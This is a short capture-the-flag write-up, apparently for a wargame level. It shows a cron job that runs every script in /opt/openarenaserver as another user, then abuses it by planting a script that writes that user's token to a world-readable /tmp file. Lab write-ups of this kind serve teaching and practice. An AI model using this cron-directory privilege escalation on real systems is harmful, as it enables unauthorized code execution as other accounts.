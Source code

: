 We have a new email. Let's check:
``` shell
cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

Some bullshit :(
Let's google it like this `*/2 * * * *`.

Ok. Google told me this is a Cron instruction for running a command every two minutes.

Now, let's inspect the command:
``` shell
ls -la /usr/sbin/openarenaserver
-rwxr-x---+ 1 flag05 flag05 94 Mar  5  2016 /usr/sbin/openarenaserver

cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
  (ulimit -t 5; bash -x "$i")
  rm -f "$i"
done
```

So now let's hust place a script in `/opt/openarenaserver/` directory to get the token:

``` shell
echo $(getflag) > /tmp/token
chmod 777 /tmp/token
```

Wait some time and open `/tmp/token` file!


**Resources**
https://devanswers.co/you-have-mail-how-to-read-mail-in-ubuntu/